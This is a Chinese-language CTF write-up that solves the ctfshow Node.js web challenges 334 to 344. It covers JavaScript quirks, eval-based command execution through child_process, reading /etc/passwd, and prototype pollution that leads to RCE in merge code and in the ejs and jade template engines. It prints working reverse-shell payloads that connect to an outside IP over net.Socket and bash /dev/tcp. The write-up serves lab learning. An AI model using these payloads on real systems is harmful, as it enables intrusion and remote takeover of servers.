


ctfshow web入门 Node WP
web334 little trick
考察js特性: 参考 https://www.leavesongs.com/HTML/javascript-up-low-ercase-tip.html
1 | toUpperCase(): |
web335 rce
nodeJs命令执行,可以读文件,但是没找到flag
require('fs').readFileSync('/etc/passwd', 'utf-8');
尝试执行系统命令 require('child_process').execSync('whoami');
?eval=require('child_process').execSync('cat fl00g.txt');
require('child_process').spawnSync('whoami');
web336 rce bypas
有绕过,可以先读代码
?eval=__filename读当前文件路径
1 | var express = require('express'); |
ban了exec和load , nodejs引入函数不仅能package.function还能 package[‘function’]
bypass: require('fs').readFileSync('/app/routes/index.js', 'utf-8');
web337 js数组
给了代码
1 | var express = require('express'); |

如上图,js中两个数组是不能直接用===判断是否相等的.
参考 https://www.cnblogs.com/chri330dj/p/12420458.html
而且typeof(array+string)=string
所以传数组参数可以绕过?a[0]=&b[0]=1
web338 原型链污染 merage
routes/login.js
1 | var express = require('express'); |
getFlag条件是secert.ctfshow==='36dboy' , 跟踪到utils/common , 发现是 Object recursive merge 的一段代码
1 | function copy(object1, object2){ |
payload : {"__proto__": {"ctfshow": "36dboy"}}, 通过污染{},来达到条件

web339 RCE
发现this变量似乎指向了一个全局空间
面向对象语言中 this 表示当前对象的一个引用 , 考虑把user.__proto__.ctfshow赋值为this.flag
login.js
1 | router.post('/', require('body-parser').json(),function(req, res, next) { |
secert.ctfshow===flag是无法实现了.
在api.js , 可以通过参数污染控制query,然后实现RCE
Function:https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function
1 | router.post('/', require('body-parser').json(),function(req, res, next) { |
payload: 反弹shell (下面这个一直没成功)
1 | {"__proto__":{"query":"var net = require('net'),cp = require('child_process'),sh = cp.spawn('/bin/sh', []);var client = new net.Socket();client.connect(1001,'91.67.943.121', function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});return /a/;"}} |
后来在P牛博客看到, https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html

1 | {"__proto__":{"query":"var net = process.mainModule.constructor._load('net'),cp = process.mainModule.constructor._load('child_process'),sh = cp.spawn('/bin/sh', []);var client = new net.Socket();client.connect(1001,'91.67.943.121', function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});return /a/;"}} |
然后再次尝试反弹shell.

Express运行环境和node shell环境下结果不一致//坑死在这里了
web340
关键代码变成了下面的
1 | router.post('/', require('body-parser').json(),function(req, res, next) { |
不能直接修改isAdmin的值,但是可以找两次原型污染query
1 | {"__proto__":{"__proto__":{"query":"var net = process.mainModule.constructor._load('net'),cp = process.mainModule.constructor._load('child_process'),sh = cp.spawn('/bin/sh', []);var client = new net.Socket();client.connect(1001,'91.67.943.121', function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});return /a/;"}}} |
web341 ejs RCE
ejs模板引擎的原型链污染RCE reference: https://xz.aliyun.com/t/6113
污染最上层就能影响到整个模板.还是挺神奇的.
payload:
1 | {"__proto__":{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/91.67.943.121/6666 0>&1\"');var __tmp2"}}} |
以后再好好审计研究一下.
342
app.js 可以看到模板引擎换成了jade, 然后 https://xz.aliyun.com/t/7025 这篇文章里面找到一个payload,失败了
1 | app.set('views', path.join(__dirname, 'views')); |
1 | {"__proto__":{"__proto__":{"compileDebug":1,"self":1,"line":"console.log(global.process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/91.67.943.121/6666 0>&1\"'))"}}} |
Nu1L战队搜到的一条链,可惜也失败了
1 | {"__proto__":{"self":"true","line":"2,jade_debug[0].filename));return global.process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/91.67.943.121/6666 0>&1\"');//"}} |
分割线,2.22来填坑了.
payload:
1 | {"__proto__":{"__proto__":{"type":"Code","self":1,"line":"global.process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/91.67.943.121/6666 0>&1\"')"}}} |
payload分析过程:
344 nodejs特性
参考羽师傅wp https://blog.csdn.net/miuzzx/article/details/111780832
?query={“name”:”admin”&query=”password”:”%63tfshow”&query=”isVIP”:true}